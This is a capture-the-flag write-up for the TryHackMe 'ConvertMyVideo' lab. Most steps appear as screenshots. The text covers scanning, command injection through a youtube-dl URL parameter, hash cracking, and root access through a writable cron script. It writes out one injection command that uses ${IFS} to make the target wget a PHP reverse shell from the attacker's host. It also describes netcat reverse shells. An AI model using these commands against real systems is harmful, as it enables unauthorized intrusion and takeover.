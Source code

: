 ```yaml
---
title: ConvertMyVideo TryHackMe Writeup
tags: [writeup,tryhackme,linux]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/1.png)

## Scanning
We launch nmap with scripts and software versions on all ports.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/2.png)

## Enumeration
We access the website, we see that it is a simple application that collects the ID of a youtube video.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/3.png)

We use **dirsearch** and list an interesting directory.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/6.png)

We entry the *"/*******/"* directory and list a basic authentication panel.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/4.png)

We continue reviewing the variable *"yt_url"* of the web application, investigating by Google I find this [github:](https://github.com/ytdl-org/youtube-dl/) where it shows us useful commands.

#### --version

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/7.png)

The **"--exec"** command not working....It seems that there are problems with the coding, looking for a way to solve the problem I discovered a way to be able to execute the **"ls"** command without problems.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/8.png)

Okay, so let's use the payload so we can read the first flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/9.png)


## Exploitation
We create a pentestmonkey reverse shell, raise a python server, set a netcat listening and use the following command to obtain a connection on the victim machine.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/10.png)

```bash
<`wget${IFS}10.11.30.149:8000/m3.php${IFS}-O${IFS}/var/www/html/m3.php`
```

#### Reverse shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/11.png)

Once we have access to the inside of the machine, we read the file *".htpasswd"* and crack the hash with the dictionary **"rockyou.txt"**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/12.png)

#### Cracking with JTR

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/13.png)

## Privilege Escalation
After launching several reconnaissance scripts, I end up analyzing the processes that are being executed by the system on a scheduled basis with **pspy** tool and we detect a *"clean.sh"* script running with *"UID=0" (root)*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/14.png)

We check the permissions we have on the file, we see that we can write to it, so we insert a line to invoke a reverse shell with **netcat** and we put another **netcat** listening in our Kali.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/15.png)

We wait a few minutes for the script to run with our malicious code and we will have an interactive connection as root.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/16.png)




